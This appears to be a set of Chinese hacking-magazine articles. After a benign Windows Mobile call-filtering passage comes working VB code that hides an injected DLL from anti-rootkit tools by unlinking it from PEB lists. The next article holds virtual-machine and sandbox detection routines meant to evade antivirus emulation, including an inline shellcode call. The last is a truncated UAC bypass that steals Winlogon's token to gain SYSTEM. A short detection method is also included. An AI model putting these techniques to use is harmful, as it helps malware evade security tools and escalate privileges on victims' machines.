不过这只是一个投机取巧的办法，实际应用中还有一个思路：就是利用 RIL，即 Radio Interface Layer（无线接口层）。RIL 工作在 PPP、TCP/IP 协议之下，负责数据的可靠传输、AT 命令（硬件设备发送的指令）的发送以及 response 的解析。RIL 是 WM 的一个非常重要的组件，RIL 使各种无线语音和数据应用成为可能。运行在 WM 上的软件可以通过 RIL 与 GSM/GPRS 或者 CDMA2000 1X modem 通信。RIL 的位置处于无线基带系统的协议栈之上、WM 的 CellCore 层之下。RIL 的特点是：隐藏了硬件上的一些细节，并且 WM 提供了 RIL 的源码（lib 库），在 RIL 上的开发工作相对来说比较简单。

RIL 包括两个模块：RIL 代理和 RIL 驱动。代理层是一个掌管回调函数和进程调用的动态链接库，CellCore 模块通过这个动态链接库可以使用 RIL 的应用程序接口（RIL API），我们编程时会用到。而 RIL 驱动层是一个设备驱动，它由 Device Manager（Device.exe）控制。RIL 的驱动系统服务用于请求无线功能，包括电话、短信和 GPRS 上网等。另外，RIL 驱动也会同时通知系统一些关于无线状态的变化，包括信号强度、覆盖以及来电。

代码封装的部分可以看成是 RIL 上层部分，即 RIL 代理。由于 RIL 隐藏了硬件一些细节，我们可以把它与 Windows 下的 HAL 类比。RIL 的驱动部分，主要是将上层代理发来的 IOCTL 通过 AT 指令传输到底层。RIL 的层次模型如图 9 所示。

再从 RIL 的源码可以发现，RIL 几乎对 WM 手机中有关网络通信部分（包括短信彩信、GPRS 以及 CALL 等）都提供了相关的接口。因此，利用 RIL 提供的 lib 库，以及恰当的调用方式，我们也能够很轻松地对手机的电话数据进行监听。另外，最近火热的 Android 也有自己的 RIL。
图 9

以下是 RIL 回调函数的具体代码，通过对呼入机制的监控，我们可以从中获得来电的电话号码。当然，为了体现出特点，我写成了固定的电话号码，如果导入黑白名单机制，就可以完成一个来电防火墙的雏形了。

```cpp
// RIL 回调函数
void CALLBACK NotifyCallback(DWORD dwCode,
    const void *lpData,
    DWORD cbData,
    DWORD dwParam)
{
    ...
}
```

```cpp
switch (dwCode & RIL_NCLASS_ALL)
{
    // 呼叫机制
    case RIL_NCLASS_CALLCTRL:
    {
        addLBMess(L"CallCtrl Notification:");
        switch (dwCode)
        {
            case RIL_NOTIFY_RING:
                break;
            case RIL_NOTIFY_CONNECT:
                break;
            case RIL_NOTIFY_CALLSTATECHANGED:
                addLBMess(L"Call Hanged");
                break;
            default:
                break;
        }
        break;
    }

    // 呼入机制
    case RIL_NCLASS_SUPSERVICE:
    {
        switch (dwCode)
        {
            case RIL_NOTIFY_CALLERID:
            {
                RILSUBSCRIBERINFO *prm = (RILSUBSCRIBERINFO*)lpData;
                if (prm->cbSize != 0)
                {
                    addLBMess(L"Number: %s", prm->raAddress.wszAddress);
                    if ((wcstr(prm->raAddress.wszAddress, L"1234567890") != NULL))
                    {
                        Drop(); // 我们要拒绝的来电，这里要挂断电话
                    }
                }
                break;
            }
            case RIL_NOTIFY_DIALEDID:
                break;
            case RIL_NOTIFY_SUPSERVICEDATA:
                addLBMess(L"RIL_NOTIFY_SUPSERVICEDATA");
                break;
            default:
                break;
        }
        break;
    }

    default:
        break;
}
```

```cpp
break;
}
}
```

另外，假设 1234567890 是我们想过滤的号码，当我们截获到这个数据时，应该怎么处理呢？我采用的是模拟按键的方式，这个 WM 手机编程也是支持的，实现代码如下：

```cpp
// 模拟按键挂电话
void Drop()
{
    keybd_event(VK_F4, 0, 0, 0);
    addLBMess("Drop");
    // 打电话信息表明是在挂断电话
    keybd_event(VK_F4, 0, KEYEVENTF_KEYUP, 0);
}


```

编码完成之后，我们来进行一个简单的测试。首先用蜂窝仿真器拨打一个号码为 54321 的电话，可以看到电话打了过来（当然我没有接，图标也有显示），并且在我们的程序中截获并打印了出来。当我再次拨打我们自定的黑名单电话（1234567890）的时候，可以看到数据依然被截获到，并且模拟挂断的调试信息也成功被打印出来，如图 10 所示。

WM 手机中编程还有很多值得学习和研究的地方。另外有关 WinCE 的内核代码，也可以在网上下载到，它能够帮助我们更深刻地理解 WM 手机编程原理，并且更好地在 WM 手机上进行编程。
图 10

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VB  
关键词：编程、DLL、文件隐藏

##### 无驱动隐藏 DLL
文/胡文亮

网上有不少隐藏进程的代码，隐藏 DLL 的代码却很少，而且它们都使用到了驱动程序。在目前的环境下，异常进程很容易被 ARK 看出来。实际上，隐藏进程比不隐藏还糟糕（标为红色的进程十分显眼），有保护的进程与没保护的进程也没什么区别（网上强杀进程的工具多如牛毛）。而且，加载驱动也越来越难，连原来的“补丁下载器 360”也改行干起了“主动防御”的活儿。所以，DLL 注入法有了市场。但是注入了 DLL 是可以枚举出来的，所以有了本文——隐藏 DLL。

首先解答一个疑问，系统提供的 API，比如 EnumProcessModules，是怎样枚举 DLL 的呢？它首先使用 NtQueryInformationProcess 得到进程的 PEB，然后得到 Ldr（PEB_LDR_DATA 结构体），并枚举其中的 InLoadOrderModuleList。InLoadOrderModuleList 是一个 LIST_ENTRY 结构体（双向链表），把进程所加载的 DLL 以“手拉手”的方式连接起来。遍历双向链表就是体力活了，这是 C 语言初学者就该掌握的基本功。不过用 VB 遍历双向链表就有点麻烦了，代码如下：

```vb
Public Sub HdEnumDlls(ByVal Pid As Long, ByRef lst As ListBox)
    Dim iPid As Long
    Dim lProc As Long
    Dim tPEB_LDR_DATA As PEB_LDR_DATA
    Dim tLDR_MODULE As LDR_MODULE
    Dim tLDR_MODULE As LDR_MODULE
    Dim tFLDR_MODULE As LDR_MODULE
    Dim sDllName As String
    Dim i As Long: i = 1
    '获得 SE_DEBUG
    RtlAdjustPrivilege 20, 1, 0, 0
    ...
End Sub
```

```vb
'获得 PEB
lPtr = GetPEB(iPid)
'打开进程
lProc = OpenProcess(&H10 Or &H400, 0, iPid)
'如果成功打开进程
If lProc Then
    '如果成功读取到数据
    If Not ReadProcessMemory(lProc, ByVal lPtr + 12, lPtr, &H4, 0&) = 0 Then
        '找到链表头
        ReadProcessMemory lProc, ByVal lPtr, ByVal VarPtr(tPEB_LDR_DATA), Len(tPEB_LDR_DATA), 0
        ReadProcessMemory lProc, ByVal tPEB_LDR_DATA.InLoadOrderModuleList.Flink, ByVal VarPtr(tLDR_MODULE), Len(tLDR_MODULE), 0
        '继续读取数据直到 DLL 基址为 0
        Do While tLDR_MODULE.BaseAddress <> 0
            lstAddItem CStr(i) & ":" & Hex(tLDR_MODULE.BaseAddress)
            ReadProcessMemory lProc, ByVal tLDR_MODULE.InLoadOrderModuleList.Flink, ByVal VarPtr(tLDR_MODULE), Len(tLDR_MODULE), 0
            i = i + 1
        Loop
    End If
    Call CloseHandle(lProc)
End If

Private Function GetPEB(ByVal iPid As Long) As Long
    Dim tPBI As PROCESS_BASIC_INFORMATION
    Dim lRet As Long
    Dim lProc As Long
    lProc = OpenProcess(PROCESS_QUERY_INFORMATION Or PROCESS_VM_READ, 0, iPid)
    If lProc Then
        If NtQueryInformationProcess(lProc, 0, VarPtr(tPBI), Len(tPBI), lRet) = 0 Then
            GetPEB = tPBI.PEBBaseAddress
        End If
        CloseHandle lProc
    End If
End Function
```

| 偏移 | 字段 | 类型 |
|---|---|---|
| +0x020 | SizeOfImage | Uint4B |
| +0x024 | FullDllName | UNICODE_STRING |
| +0x02c | BaseDllName | UNICODE_STRING |
| +0x034 | Flags | Uint4B |
| +0x038 | LoadCount | Uint2B |
| +0x03a | TlsIndex | Uint2B |
| +0x03c | HashLinks | LIST_ENTRY |
| +0x03c | SectionPointer | Ptr32 Void |
| +0x040 | CheckSum | Uint4B |
| +0x044 | TimeDateStamp | UInt4B |
| +0x044 | LoadedImports | Ptr32 Void |
| +0x048 | EntryPointActivationContext | Ptr32 Void |
| +0x04c | PatchInformation | Ptr32 Void |

既然是双向链表，就可以摘除。由于和进程有关的双向链表（比如活动链）在内核空间，Ring3 要使用 NtSystemDebugControl 或“物理内存对象”等“不和谐”方法才能摘链（这两者在 Windows 2003 SP1 以后的系统中都被禁止使用了）；而和模块有关的链表在用户空间（PEB 在用户空间），所以用 WriteProcessMemory 就可以做到。把刚才枚举 DLL 的代码稍微修改一下，就成了隐藏 DLL 的代码。

```vb
Public Function CloakDll(ByVal iPid As Long, ByVal lTarget As Long) As Boolean
    Dim lPtr As Long
    Dim lProc As Long
    Dim tPEB_LDR_DATA As PEB_LDR_DATA
    Dim tLDR_MODULE As LDR_MODULE
    Dim tBLDR_MODULE As LDR_MODULE

    '获得 SE_DEBUG
    RtlAdjustPrivilege 20, 1, 0, 0
    '获得 PEB
    lPtr = GetPEB(iPid)
    '打开进程
    lProc = OpenProcess(PROCESS_VM_OPERATION Or PROCESS_VM_READ Or PROCESS_VM_WRITE, 0, iPid)

    If lProc Then
        If Not ReadProcessMemory(lProc, ByVal lPtr + 12, lPtr, &H4, 0&) = 0 Then
            ReadProcessMemory lProc, ByVal lPtr, ByVal VarPtr(tPEB_LDR_DATA), Len(tPEB_LDR_DATA), 0
            ReadProcessMemory lProc, ByVal tPEB_LDR_DATA.InLoadOrderModuleList.Flink, ByVal VarPtr(tLDR_MODULE), Len(tLDR_MODULE), 0
            Do While tLDR_MODULE.BaseAddress <> 0
                ReadProcessMemory lProc, ByVal tLDR_MODULE.InLoadOrderModuleList.Flink, ByVal VarPtr(tLDR_MODULE), Len(tLDR_MODULE), 0
                If tLDR_MODULE.BaseAddress = lTarget Then
                    '复制结构数据
                    ...
                End If
            Loop
        End If
    End If
End Function
```

以上代码能枚举出所有进程中所有 DLL 的基址。这份代码里涉及一个结构体 LDR_DATA_TABLE_ENTRY，以下是详细结构。其中的“FullDllName”和“BaseDllName”都是 UNICODE_STRING 类型的字符串，我在把 UNICODE_STRING 转换为 VB 的 BSTR 字符串的过程中总是出错（一出错整个程序就挂掉了，连个提示都没有），不知道是什么原因，欢迎高手们和我讨论。

| 结构 | 字段 |
|---|---|
| nt!_LDR_DATA_TABLE_ENTRY |  |
| +0x000 | InLoadOrderLinks : _LIST_ENTRY |
| +0x008 | InMemoryOrderLinks : _LIST_ENTRY |
| +0x010 | InInitializationOrderLinks : _LIST_ENTRY |
| +0x018 | DllBase : Ptr32 Void |
| +0x01c | EntryPoint : Ptr32 Void |

```vb
ReadProcessMemory lProc, ByVal InLoadOrderModuleList.Blink, ByVal VarPtr(tBLDR_MODULE), Len(tBLDR_MODULE), 0
ReadProcessMemory lProc, ByVal InLoadOrderModuleList.Flink, ByVal VarPtr(tFLDR_MODULE), Len(tFLDR_MODULE), 0

'处理 Flink
tBLDR_MODULE.InLoadOrderModuleList.Flink = InLoadOrderModuleList.Flink
tBLDR_MODULE.InInitializationOrderModuleList.Flink = InInitializationOrderModuleList.Flink
tBLDR_MODULE.InMemoryOrderModuleList.Flink = InMemoryOrderModuleList.Flink

'处理 Blink
tFLDR_MODULE.InLoadOrderModuleList.Blink = InLoadOrderModuleList.Blink
tFLDR_MODULE.InInitializationOrderModuleList.Blink = InInitializationOrderModuleList.Blink
tFLDR_MODULE.InMemoryOrderModuleList.Blink = InMemoryOrderModuleList.Blink

'断链
WriteProcessMemory lProc, ByVal InLoadOrderModuleList.Blink, ByVal VarPtr(tBLDR_MODULE), Len(tBLDR_MODULE), 0
WriteProcessMemory lProc, ByVal InLoadOrderModuleList.Flink, ByVal VarPtr(tFLDR_MODULE), Len(tBLDR_MODULE), 0

'完成操作
CloakDll = True
Exit Do
End If
End With
Loop
End If

'关闭进程句柄
Call CloseHandle(lProc)
End If
End Function


```

通过这份代码隐藏的 DLL，除了可以避过常规的 ToolHelp、PSAPI 系列函数、ARK 工具 PsNull、Icelight 之外，连大名鼎鼎的 RKU 都看不到，但是冰刃和 XueTr 仍能看到。我测试的进程是任务管理器，隐藏的模块是 ntdll.dll。隐藏 ntdll.dll 之后任务管理器仍能正常工作。用 PSAPI 的函数作对比，隐藏前看到 38 个模块，隐藏后只看到 37 个模块了，如图 1 所示。
图 1

最后再说两点，以解释一些问题。

- 一是为什么能逃过 PsNull 的检测？根据我手头上 PsNull 的源码，发现 PsNull 的驱动也是根据“Peb->Ldr->InLoadOrderModuleList”来枚举进程模块的，和我的“HdEnumDlls”没什么本质区别。个人估计 Icelight、RKU 也是这么做的。

```c
typedef struct _ProcessModuleInfo {
    ULONG Count;
    PVOID LdrModule[4095];
} ProcessModuleInfo, *PProcessModuleInfo;

PProcessModuleInfo EnumProcessModules(PEPROCESS Process)
{
    PProcessModuleInfo ModuleInfo;
    PVOID MagicPtr;
    BOOLEAN Attached;
    KAPC_STATE ApcState;
    PLIST_ENTRY ListEntry;
    KIRQL OldIrql;

    if (Process == 0) Process = SystemProcess;
    if ((!MmIsAddressValid(Process)) || !MmIsAddressValid((PVOID)((ULONG)Process + ThreadListHeadOffset)))
        return NULL;

    ModuleInfo = ExAllocatePool(NonPagedPool, sizeof(ProcessModuleInfo));
    if (!ModuleInfo) return NULL;

    if (Process == SystemProcess) {
        // PsLoadedModuleList
        MagicPtr = PsLoadedModuleList;
        if (!MmIsAddressValid(MagicPtr)) return NULL;
        ModuleInfo->Count = 0;
        OldIrql = KeRaiseIrqlToDpcLevel();
        try {
            ListEntry = *(PVOID*)MagicPtr;
            while (ListEntry != MagicPtr && ModuleInfo->Count < MaxModuleCount) {
                ModuleInfo->LdrModule[ModuleInfo->Count++] = ListEntry;
                if (!MmIsAddressValid(MagicPtr)) break;
                ListEntry = ListEntry->Flink;
            }
        } except (EXCEPTION_EXECUTE_HANDLER) {}
        KeLowerIrql(OldIrql);
    } else {
        // Process->Peb
        MagicPtr = (PVOID)((ULONG)Process + PebOffset);
        if (!MmIsAddressValid(MagicPtr)) return NULL;

        // Peb
        MagicPtr = *(PVOID*)MagicPtr;
        if (!MagicPtr) return NULL;

        ModuleInfo->Count = 0;
        if (Process == PsGetCurrentProcess()) {
            Attached = FALSE;
        } else {
            KeStackAttachProcess(Process, &ApcState);
            Attached = TRUE;
        }
        try {
            ...
        }
    }
}
```

```c
// Peb->Ldr
MagicPtr = (PVOID)((ULONG)MagicPtr + 0xc);
// Peb->Ldr->InLoadOrderModuleList
ProbeForRead(MagicPtr, 4, 4);
MagicPtr = (PVOID)(*(PULONG)MagicPtr + 0xc);
// Peb->Ldr->InLoadOrderModuleList->Flink
ProbeForRead(MagicPtr, 4, 4);
ListEntry = *(PVOID*)MagicPtr;
while (ListEntry != MagicPtr && ModuleInfo->Count < MaxModuleCount)
{
    ProbeForRead(ListEntry, 72, 4);
    ModuleInfo->LdrModule[ModuleInfo->Count++] = ListEntry;
    ListEntry = ListEntry->Flink;
}
} except (EXCEPTION_EXECUTE_HANDLER) {
}
if (Attached) {
    KeUnstackDetachProcess(&ApcState);
}
return ModuleInfo;
}
```

- 二是怎样检测这种隐藏 DLL 的方式？我觉得只有暴力搜索 PE 文件标志比较靠谱（当然人家可以涂抹去 PE 标志），也可以使用遍历 VAD 的做法（EPROCESS->Vad->ControlArea->FilePointer）。主要代码如下（代码是 XACKER 写的，不是我写的，特此声明）：

```vb
BackedupSectionFileNameInfo As Long
End Type

Private Type MMVAD
    StartingVpn As Long
    EndingVpn As Long
    Parent As Long 'ptr _MMVAD
    LeftChild As Long 'ptr _MMVAD
    RightChild As Long 'ptr _MMVAD
    unnamed As Long
    ControlArea As Long 'ptr _CONTROL_AREA
    FirstPrototypePte As Long 'ptr _MMPTE
    LastContiguousPte As Long 'ptr _MMPTE
    unnamed2 As Long
End Type

Private Type LIST_ENTRY
    Flink As Long
    Blink As Long
End Type

Private Type UNICODE_STRING
    Length As Integer
    MaximumLength As Integer
    Buffer As Long
End Type

Private Type CONTROL_AREA
    Segment As Long 'ptr _SEGMENT
    DereferenceList As LIST_ENTRY
    NumberOfSectionReferences As Long
    NumberOfPfnReferences As Long
    NumberOfMappedViews As Long
    NumberOfSubsections As Integer
    FlushInProgressCount As Integer
    NumberOfUserReferences As Long
    unnamed As Long
    FilePointer As Long 'ptr _FILE_OBJECT
    WaitingForDeletion As Long
    ModifiedWriteCount As Long
    NumberOfSystemCacheViews As Long
End Type

Private Type LARGE_INTEGER
    LowPart As Long
    HighPart As Long
End Type

Private Type KEVENT_DISPATCHER_HEADER
    Type As Byte
    Absolute As Byte
    Size As Byte
    Inserted As Byte
    SignalState As Long
    WaitListHead As LIST_ENTRY
End Type

Private Type FILE_OBJECT
    Type As Integer
    Size As Integer
    DeviceObject As Long 'ptr _DEVICE_OBJECT
    Vpb As Long 'ptr _VPB
    FsContext As Long
    FsContext2 As Long
    SectionObjectPointer As Long 'ptr _SECTION_OBJECT_POINTERS
    PrivateCacheMap As Long
    FinalStatus As Long
    RelatedFileObject As Long
    LockOperation As Byte
    DeletePending As Byte
    ReadAccess As Byte
    WriteAccess As Byte
    DeleteAccess As Byte
    SharedRead As Byte
    SharedWrite As Byte
    SharedDelete As Byte
    Flags As Long
    FileName As UNICODE_STRING
    CurrentByteOffset As LARGE_INTEGER
    Waiters As Long
    Busy As Long
    LastLock As Long
    Lock As KEVENT_DISPATCHER_HEADER
    Event As KEVENT_DISPATCHER_HEADER
    CompletionContext As Long
End Type

Private Type VPB
    Type As Integer
    Size As Integer
    Flags As Integer
    VolumeLabelLength As Integer
    DeviceObject As Long 'ptr _DEVICE_OBJECT
    RealDevice As Long 'ptr _DEVICE_OBJECT
    SerialNumber As Long
    ReferenceCount As Long
    VolumeLabel As Long
End Type

Public Type MyModule
    BasedAddress As Long
    FileName As String
End Type

Private Declare Function GetVolumeInformationA Lib "kernel32" ( _
    ByVal lpRootPathName As String, _
    ByVal lpVolumeNameBuffer As String, _
    ByVal nVolumeNameSize As Long, _
    lpVolumeSerialNumber As Long, _
    lpMaximumComponentLength As Long, _
    lpFileSystemFlags As Long, _
    ByVal lpFileSystemNameBuffer As String, _
    ByVal nFileSystemNameSize As Long) As Long

Private Declare Function GetLogicalDriveStringsA Lib "kernel32" (ByVal nBufferLength As Long, ByVal lpBuffer As String) As Long

Private Declare Function NtQueryVirtualMemory Lib "NTDLL" (ByVal hProcess As Long, ByVal BaseAddress As Long, MemoryInfoClass As MEMORY_INFO_CLASS, ByVal MemoryInformationLength As Long, ByVal ReturnLength As Long) As Long

Private Type MEMORY_BASIC_INFORMATION
    BaseAddress As Long
    AllocationBase As Long
    AllocationProtect As Long
    RegionSize As Long
    State As Long
    Protect As Long
    Type As Long
End Type

Private Type MEMORY_INFO_CLASS
    MemoryBasicInformation As Long
    WorkingSetInfo As Long
End Type

'XP SP2 EPROCESS Offset
Private Const Offset_VadRoot = &H11C
Private Const Offset_MMVAD_LeftChild = &HC
Private Const Offset_MMVAD_RightChild = &H10
Dim Count As Long

Private Function GetProcessModule(pMMVAD As Long, Module() As MyModule) As Boolean
    Dim vad As MMVAD, AREA As CONTROL_AREA, fOBJECT As FILE_OBJECT
    Dim Addr As Long, pvpb As VPB, tmp As String
    Dim Boot As String
    If pMMVAD = 0 Then Exit Function
    CopyMemoryEx pMMVAD, VarPtr(vad), Len(vad)
    If vad.ControlArea Then
        CopyMemoryEx vad.ControlArea, VarPtr(AREA), Len(AREA)
        If AREA.FilePointer Then
            CopyMemoryEx AREA.FilePointer, VarPtr(fOBJECT), Len(fOBJECT)
            tmp = GetString(fOBJECT.FileName.Buffer, CLng(fOBJECT.FileName.MaximumLength), True, True)
            If Len(tmp) Then
                CopyMemoryEx fOBJECT.VPB, VarPtr(pvpb), Len(pvpb)
                Boot = Left(GetBoot(pvpb.SerialNumber), 2)
                ReDim Preserve Module(Count)
                Module(Count).FileName = Boot & tmp
                Module(Count).BasedAddress = MI_VPN_TO_VA(vad.StartingVpn, Addr)
                Count = Count + 1
            End If
        End If
    End If
End Function

End If
End If
End If
End Function

Public Function ScanProcessModule(pProcess As Long, Module() As MyModule) As Boolean
    Dim VadRoot As Long
    Count = 0
    VadRoot = ReadMemory(Eprocess + Offset_VadRoot)
    If VadRoot Then
        Call ParseVadTree(VadRoot, Module)
        ScanProcessModule = True
    End If
End Function

Private Function ParseVadTree(ParentNode As Long, Module() As MyModule) As Long
    Dim vad As MMVAD
    If ParentNode = 0 Then Exit Function
    GetProcessModule ParentNode, Module
    CopyMemoryEx ParentNode, VarPtr(vad), Len(vad)
    Call ParseVadTree(vad.LeftChild, Module)  '递归查询
    Call ParseVadTree(vad.RightChild, Module)
End Function

'其实基础计算公式：BaseAddress=(PCHAR)MI_VPN_TO_VA(Vad->StartingVpn)-PAGE_ALIGN(BaseAddress)
Private Function MI_VPN_TO_VA(vpn As Long, Base As Long) As Long
    Const PAGE_SHIFT = 12
    Const PAGE_SIZE = 1024
    Dim Ret As Long
    Ret = vpn - (Base And PAGE_SIZE)
    MI_VPN_TO_VA = Ret * (2 ^ PAGE_SHIFT)
End Function

Private Function GetBoot(SerialNumber As Long) As String
    Static SNumber() As Long, strArray() As String
    Static Flag As Boolean, strDrives As String, i As Long
    Dim j As Long, tmp As Long
    If SerialNumber Then
        If Flag = False Then
            strDrives = String(120, Chr(0))
            tmp = GetLogicalDriveStringsA(120, strDrives)
            strDrives = Left(strDrives, tmp)
            If tmp Then
                strArray = Split(strDrives, Chr(0))
                j = UBound(strArray)
                ReDim SNumber(j)
            End If
            For i = 0 To j
                If Len(strArray(i)) Then
                    GetVolumeInformationA strArray(i), ByVal 0, 99, tmp, ByVal 0, ByVal 0, ByVal 0, 99
                    SNumber(i) = tmp
                End If
            Next
            Flag = True
        End If
        For i = 0 To j
            If SerialNumber = SNumber(i) Then
                GetBoot = strArray(i)
                Exit Function
            End If
        Next
    End If
End Function
```

```vb
GetBoot = "?"
End If
End Function


```

由于涉及的结构都在内核空间里，所以只能使用 NtSystemDebugControl。另处据说如果把 VAD 里的信息都抹掉，那么 IceSword、XueTr 等工具就也看不到了。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VB  
关键词：编程、虚拟机、注册表
##### 检测虚拟机

文/胡文亮

现在杀毒软件流行“虚拟机杀毒”；“虚拟机杀毒”在百度百科上的解释是：“在计算机中创造一个虚拟 CPU 环境，将病毒在虚拟环境中激活，根据其行为特征，从而判断是否是病毒”。所以，试探我们程序是否能在虚拟机中运行很重要。

最近我一直在考虑这个问题，经过思考以及上网查找资料，找到了三个稳定可行的方法，不敢独享，特地借《黑客防线》宝地献给大家。

```vb
If RegQueryValueEx(hKey, "0", 0, l, ByVal sBuffer, lLen) = 0 Then
    sBuffer = UCase(Left$(sBuffer, lLen - 1))
    Select Case True
        Case sBuffer Like "*VIRTUAL*": IsVirtualPCPresent = 1
        Case sBuffer Like "*VMWARE*": IsVirtualPCPresent = 2
        Case sBuffer Like "*VBOX*": IsVirtualPCPresent = 3
    End Select
End If
Call RegCloseKey(hKey)
End If
End Function
```

###### 检测注册表

检测 `HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Disk\Enum` 下有没有类似“VIRTUAL”、“VMWARE”、“VBOX”之类的字眼，实现代码如下：

```vb
Option Explicit
Private Declare Function RegOpenKeyEx Lib "advapi32.dll" ...
Private Declare Function RegCloseKey Lib "advapi32.dll" ...
Private Declare Function RegQueryValueEx Lib "advapi32.dll" ...
Public Function IsVirtualPCPresent() As Boolean
    Dim hKey As Long
    Dim sBuffer As String
    Dim lLen As Long
    If RegOpenKeyEx(...) = 0 Then
        sBuffer = Space$(255): lLen = 255
        ...
    End If
End Function
```

###### 读取 PEB

首先看看 Windows XP 系统的 PEB 结构：

```text
kd> dt _peb
nt!_PEB
+0x000 InheritedAddressSpace : UChar
+0x001 ReadImageFileExecOptions : UChar
+0x002 BeingDebugged : UChar
+0x003 SpareBool : UChar
+0x004 Mutant : Ptr32 Void
+0x008 ImageBaseAddress : Ptr32 Void
+0x00c Ldr : Ptr32 _PEB_LDR_DATA
+0x010 ProcessParameters : Ptr32 _RTL_USER_PROCESS_PARAMETERS
...
+0x038 FreeList : Ptr32 _PEB_FREE_BLOCK
+0x03c TlsExpansionCounter : Uint4B
+0x040 TlsBitmap : Ptr32 Void
+0x044 TlsBitmapBits : [2] Uint4B
...
+0x208 MinimumStackCommit : Uint4B
```

```text
+0x024 CurrentDirectory : _CURDIR
+0x030 DllPath : _UNICODE_STRING
+0x038 ImagePathName : _UNICODE_STRING
+0x040 CommandLine : _UNICODE_STRING
...
+0x090 CurrentDirectories : [32] _RTL_DRIVE_LETTER_CURDIR
```

正常情况下，0x68 偏移的 WindowFlags 值大于 1，在虚拟机或沙盒中此值小于或等于 1。实现代码如下：

```vb
Option Explicit
Private Declare Function RtlGetCurrentPeb Lib "NTDLL" () As Long
Private Declare Function NtWriteVirtualMemory Lib "NTDLL" (...)
Public Function ImSandBoxed() As Boolean
    Dim lUPP As Long
    Dim lWndFlags As Long
    lUPP = GetMemLng(RtlGetCurrentPeb + (&H4 * 4))
    lWndFlags = GetMemLng(lUPP + (&H4 * 26))
    ImSandBoxed = (lWndFlags <= 1)
End Function
Private Function GetMemLng(ByVal lAddr As Long) As Long
    Call NtWriteVirtualMemory(-1, VarPtr(GetMemLng), lAddr, &H4, ByVal 0&)
End Function
```

再看看 0x10 偏移处的 RTL_USER_PROCESS_PARAMETERS 结构：

```text
kd> dt RTL_USER_PROCESS_PARAMETERS
nt!_RTL_USER_PROCESS_PARAMETERS
+0x000 MaximumLength : Uint4B
+0x004 Length : Uint4B
+0x008 Flags : Uint4B
+0x00c DebugFlags : Uint4B
+0x010 ConsoleHandle : Ptr32 Void
+0x014 ConsoleFlags : Uint4B
+0x018 StandardInput : Ptr32 Void
+0x01c StandardOutput : Ptr32 Void
+0x020 StandardError : Ptr32 Void
```

###### 利用 IDT 检测

```asm
mov ecx, [esp+4]
sidt [ecx]
retn
```

转化成 VB 代码如下（VB 执行汇编代码）：

```vb
Option Explicit
Private Declare Function CallThunk8 Lib "USER32" Alias "CallWindowProcW" (...)
Public Function ImVirtualized() As Boolean
    Dim tIDT(2 + 4) As Byte
    ' 这 3 句汇编码等效于 shell code:
    ' 4392978797517583221
End Function
```

```vb
Call CallThunk8(-4392978797517583221@, ByVal VarPtr(tIDT(0)))
ImVirtualized = (tIDT(5) > &HD0)
End Function


```

执行上述代码后，如果返回值大于 0xD0，则说明在虚拟机中运行。这个方法是我在一家国外网站上看到的，作者只给出了代码而没有说明原理，我也不甚明白，希望能得到大家的解答。

还有一个简单的方法：关闭显示器。在任何虚拟机里，都不可能成功关闭显示器。关闭显示器用 SendMessage 即可，可是无论显示器是否成功关闭，SendMessage 都会返回一模一样的值，这就导致我无法写出判断的代码。检测虚拟机的方法还有很多，感兴趣的话大家可以自己再总结一些，此文权当抛砖引玉。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：Delphi  
关键词：编程、UAC、提权
##### 突破 UAC 获取 System 权限

文/Fireworm

前几天在网上看到很多关于 UAC 的讨论，虽然没找到什么实质性的东西，不过在微软官网上找到了一点关于 UAC 的说明。根据说明，Vista 下的 UAC 将服务驱动和应用程序隔离开，形成了会话 0（session 0）和其他会话的结构，通过这种行为降低了安全风险。

根据《深入解析 Windows 操作系统》第 5 版，Vista 启动并进行登录的时候，系统会自行分配一个会话 ID 给用户，第一个登录的 ID 为 1，第二个为 2，依此类推，在任务管理器中，可以看到每个用户的会话 ID。

假设一个用户物理接触计算机，并且控制计算机（也就是登录），他就是一个“活动的用户”。利用 Win32 API `WTSGetActiveConsoleSessionId` 会返回“活动用户”的会话 ID，如果有一个用户 A 是活动用户，他是第一个登录的，这个 API 会返回 A 用户的会话 ID 为 1。

当然，Vista 中存在一个特殊的会话 ID：0。所有的服务在 ID 为 0 的会话中进行，会话 0 是不可交互的。也就是说，没法运行用户界面的程序（用户界面的程序大多指可视化的界面程序，例如 MFC、Delphi 和 VB 的控件等）。会话 0 不是一个用户态的会话，所以不能通过它去加载驱动。

会话 0 将系统进程以及服务和普通用户进程分离开，但是 Vista 下的 System 用户已经提升了特权，不受 UAC 的约束。也就是说，如果所有的程序都运行在 System 账户下，UAC 就如同虚设。

据我们所知，服务可以胜任这一角色，不过服务没有用户界面，在会话 0 下又不可能启动有用户界面的程序。但有一个进程，既有界面，也在当前用户会话中运行，它就是 Winlogon。

Vista 下的 Winlogon 有 System 权限，而且 Winlogon 也有会话 ID。比如 A 用户第一个登录，那么他的会话 ID 为 1；B 用户第二个登录，那么他的会话 ID 为 2。那么，会存在两个 Winlogon 进程，会话 ID 分别为 1 和 2。

Vista 下有一个规则，凡大于 0 的会话 ID 都能够运行交互界面，而且 Winlogon 能够成为其他进程的父进程，即可以运行一个程序 C，并且让 C 成为 Winlogon 的子进程。这个程序 C 继承了 Winlogon 的权限，也就是 System 权限，System 权限自然无视 UAC 了。

在实现方面，我们可以把 Winlogon 的权限偷到手后赋予我们自己的程序（通过 DuplicateHandle），然后 `CreateProcessAsUser` 在当前活动会话中建立一个进程。鉴于我们偷到的进程权限的会话 ID 大于 0，因此可以用此权限建立一个交互式进程。

这里由于要利用一些未导出的函数，为了方便，同时考虑兼容性，直接使用了 Jedi API 库，这个库文件可以到 Jedi 的官方网站进行下载。而对 Winlogon 进程的查找可以使用进程快照进行遍历。

```cpp
dwSessionId := WTSGetActiveConsoleSessionId();
// 得到活动的控制台 ID
```

```cpp
hSnap := CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (hSnap = INVALID_HANDLE_VALUE) then
begin
  result := 1;
  exit;
end;
procEntry.dwSize := sizeof(TPROCESSENTRY32);
if (not Process32First(hSnap, procEntry)) then
begin
  result := 1;
  exit;
end;
repeat
  if (comparetext(procEntry.szExeFile, 'winlogon.exe') = 0) then
  begin
    // 找到 Winlogon 进程后，需确认其是否存在在控制台会话中
    winlogonSessId := 0;
    if (ProcessIdToSessionId(procEntry.th32ProcessID, winlogonSessId)
      and (winlogonSessId = dwSessionId)) then
    begin
      winlogonPid := procEntry.th32ProcessID;
      break;
    end;
  end;
until ...
```

```cpp
